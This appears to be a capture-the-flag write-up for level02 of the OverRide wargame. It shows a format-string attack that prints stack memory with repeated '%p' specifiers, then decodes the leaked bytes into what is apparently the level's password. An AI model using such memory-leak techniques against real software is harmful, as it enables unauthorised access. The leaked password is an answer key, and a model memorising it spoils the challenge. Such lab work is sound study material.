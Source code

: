 # Level 02

<pre>
level02@OverRide:~$ (python -c "print('%p ' * 400)" ; echo bite) | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe3d0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5c8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
</pre>

<pre>
$ python addr2char.py 
0x7fffffffe3d0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5c8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
-----%****************-------%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
</pre>
